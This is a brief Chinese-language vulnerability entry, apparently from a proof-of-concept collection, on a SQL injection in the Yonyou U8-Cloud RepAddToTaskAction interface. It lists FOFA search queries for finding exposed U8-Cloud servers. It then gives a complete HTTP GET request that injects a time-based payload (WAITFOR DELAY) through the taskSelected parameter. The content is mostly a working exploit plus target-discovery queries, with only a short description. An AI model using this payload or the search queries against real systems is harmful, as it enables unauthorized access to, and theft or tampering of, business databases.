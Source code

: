 # 用友U8-Cloud系统接口RepAddToTaskAction存在SQL注入漏洞

用友U8-Cloud系统接口RepAddToTaskAction存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```java
app="用友-U8-Cloud"
title=="U8C"
```

## poc

```javascript
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iuforeport.rep.RepAddToTaskAction&method=save&taskSelected=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409010005308.png)



## 漏洞来源

- [用友U8 Cloud RepAddToTaskAction SQL注入漏洞复现-CSDN博客](https://axsec.blog.csdn.net/article/details/141719740?spm=1001.2014.3001.5502)
